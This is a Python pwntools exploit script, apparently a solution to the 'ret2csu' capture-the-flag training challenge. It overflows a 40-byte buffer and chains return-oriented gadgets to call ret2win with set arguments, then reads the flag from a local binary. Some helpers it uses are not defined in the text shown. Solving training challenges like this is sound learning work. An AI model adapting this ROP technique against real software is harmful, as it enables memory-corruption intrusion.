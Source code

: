 ```python

# set first function arg
def pop_rdi(inp):
    return p64(0x004006a3) + p64(inp)

# pops rbx, rbp, r12, r13, r14, r15
# accepts a list of register values
def pop_rs(regs):
    payload = p64(0x0040069a)
    for reg in regs:
        payload += p64(reg)
    return payload

# sets all args then calls ret2win
def ret2win(inp1, inp2, inp3):
    payload = b''

    # set function args 2 and 3
    r13 = inp1
    r14 = inp2
    r15 = inp3
    rbx = 0xC0076
    # rbp value to avoid jne
    rbp = rbx + 1
    # call [r12 + rbx*8]
    # call _fini() with call
    r12 = 0
    regs = [rbx, rbp, r12, r13, r14, r15]
    payload += pop_rs(regs)

    # sets args 2 and 3
    # then calls _fini
    payload += p64(call_gadget)

    # set junk values for proceeding pops
    # rbx, rbp, r12-r15 and extra stack entry
    payload += add_junk(7)

    # set arg1
    payload += pop_rdi(inp1)

    # call ret2win
    payload += p64(ret2win_addr)
    return payload

# create payload
payload = b'A' * 40
payload += ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

# send payload + receive flag
io = process('./ret2csu')
io.recvuntil(b'>')
io.sendline(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
